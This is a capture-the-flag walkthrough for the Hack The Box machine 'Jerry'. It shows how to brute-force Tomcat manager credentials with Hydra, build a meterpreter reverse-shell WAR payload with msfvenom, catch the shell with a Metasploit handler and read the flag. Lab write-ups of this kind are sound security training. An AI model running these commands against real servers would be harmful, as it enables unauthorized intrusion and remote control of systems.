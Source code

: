 # Jerry

Jerry is a machine that uses `Apache Tomcat`, an open-source application designed to serve web pages developed in `Java`. We are going to exploit this machine using `Metasploit`.

First, let's confirm we have a connection to the target machine by using the `ping` tool, and then check for running applications using `nmap`.

<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

You can use the `-sC` switch for scripts to identify potential vulnerabilities, configuration issues, and additional service details. The `-sV` switch is for service version detection, which will send probes to the ports and compare them against a database.

If we type the web page in our browser, we access the Tomcat webpage. Make sure to add `:8080` at the end to specify the correct port running on the web server.

<figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

If we click the `Server Status` page, we get prompted to add credentials. In this case, `Admin:Admin` works, but it takes us to a web page that contains no information beneficial to our pentest.

<figure><img src="../../.gitbook/assets/image (21) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

We can try to click `Manager App` or `Host Manager` and utilize the same credentials, but that does not work, as seen by the `403` status code.

<figure><img src="../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

For a fun exercise, you can run `Burp Suite` as a proxy and catch the `HTTP GET` request. Inside the request will be the credentials `Admin:Admin` you entered in the `Authorization` header, encoded as base64. If you decode it in `Burp` as base64, you will see `Admin:Admin`. Pretty cool.

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Obviously, this website already uses weak credentials, so we are going to try to brute force the password on this website using a tool called `Hydra`.



Clone a list of your choice, Daniel Miessler has some amazing content.

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Let's identify a list of passwords commonly used for Tomcat applications.

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

Once we have identified the list we want to use, run `hydra -h` to get a list of options available from the tool.

We can use the `-C` switch to specify the brute force password list we would like to use with the tool.

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

Run the command, and we identify credentials that work with the `/manager/html` page. It is odd that Hydra determined `Admin:Admin` works, as it actually does not. Anyways...it looks like `tomcat:s3cret` will work. Try these credentials on the `Manager App` link on the website.

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

The page is a directory of war files. We can try to deploy our own war file to get the application to execute code of our choice. `Msfvenom` is the tool of choice here, as it allows us to build reverse shell payloads using different file types. Run the following commands to build the malicious payload.

```shell
msfvenom -l payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp -l formats
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=9001 -f war -o tomcat.war
```

The malicious file is now developed. Next, we can use the `Metasploit` framework to set up a reverse shell listener on our machine, so when the malicious war file is downloaded, we can catch and enter into the shell.

```shell
msfdb run
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpretor/reverse_tcp
msf6 > set LHOST tun0
msf6 > set LPORT 9001
msf6 > exploit -j
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Deploy the war file in the `Manager App`.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Unzip the folder in your directory, and grab the file ending in `.jsp`. Add the name of this file to the end of the URL in your web browser. This will execute your war file, and the reverse shell listening on your machine should catch the connection.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```shell
10.10.10.95:8080/tomcat1/dnawdram.jsp
```

Go back to the `Metasploit` listener and check if a session has started.&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

You can run the following commands to find the flag:

```shell
shell
whoami
dir
cd Administrator
cd Desktop
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Congrats! You have successfully completed Jerry.&#x20;

References:

{% embed url="https://www.youtube.com/watch?v=PJeBIey8gc4" %}
